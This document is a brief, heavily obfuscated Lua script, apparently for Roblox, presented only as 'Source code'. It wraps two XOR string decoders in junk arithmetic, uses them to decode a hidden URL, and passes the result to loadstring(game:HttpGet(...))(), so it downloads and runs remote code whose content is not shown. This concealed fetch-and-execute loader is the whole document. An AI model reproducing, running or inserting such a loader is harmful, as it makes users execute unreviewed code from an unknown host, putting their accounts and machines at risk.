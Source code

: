 


local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v16,v17)local v20={};for v24=1, #v16 do v6(v20,v0(v4(v1(v2(v16,v24,v24 + (1 -0))),v1(v2(v17,1 + 0 + 0 + ((v24-((1 -0) + (859 -(732 + 127))))% #v17),1 + ((v24-(1642 -(954 + 687)))% #v17) + (869 -(195 + 673)) + 0 + 0)))%(585 -(183 + 146))));end return v5(v20);end local v8=string.char;local v9=string.byte;local v10=string.sub;local v11=bit32 or bit;local v12=v11.bxor;local v13=table.concat;local v14=table.insert;local function v15(v18,v19)local v21=1280 -(555 + 725);local v22;local v23;while true do if (v21==(0 -0)) then v22=0 + 0;v23=nil;v21=(2 -1) + 0;end if (v21==((1 -0) + 0)) then while true do if (v22==0) then local v25=0;while true do if (v25==0) then v23={};for i=1, #v18 do v14(v23,v8(v12(v9(v10(v18,i,i + 1 + 0 + 0 + 0 + (0 -0))),v9(v10(v19,(((378 -(228 + 149)) + 0 + 0) -(1701 -(1586 + 41 + 74))) + ((i-(2 -((2868 -(141 + 900)) -((3407 -(1650 + 261)) + 330))))% #v19),((1 + 0) -(0 + 0)) + ((i-((1532 -(502 + 580)) -((1394 -(489 + 519)) + 63)))% #v19) + 1 + (0 -0))))%((487 + 933) -((3565 -2418) + (202 -(137 + 48))))));end v25=1;end if (v25==1) then v22=2 -1;break;end end end if (v22==(1870 -(143 + 1726))) then return v13(v23);end end break;end end end loadstring(game:HttpGet(v15(v7("\191\127\8\247\212\120\100\159\211\16\10\155\215\16\13\247\212\122\100\154\212\16\9\154\214\16\10\155\213\16\10\152\191\125\100\154\213\16\13\146\191\126\9\152\191\126\100\152\211\16\15\158\191\122\10\247\209\124\9\247\214\16\9\146\191\123\14\247\213\127\100\153\210\125\100\153\215\16\10\247\218\125\100\158\211\16\10\155\211\16\0\147\191\126\9\247\219\125\100\159\218\16\9\159\212\16\12\147\191\127\9\247\219\126\100\159\218\16\10\155\218\16\11\247\212\125\100\154\212\16\12\156\191\126\8\147\191\127\9\247\209\123\100\147\213\16\9\154\214\16\10\155\218\16\10\152\191\127\9\247\219\124\100\154\210\121\100\153\208\117\100\153\213\16\11\154\191\116\11\247\210\125\12\247\209\124\1\247\210\116","\227\76\56\171"),v7("\214\96\31\146\230\109\187\214\104\28\246\139\99\177\214\96\31\146","\138\81\46\170\186\91\137"))))();
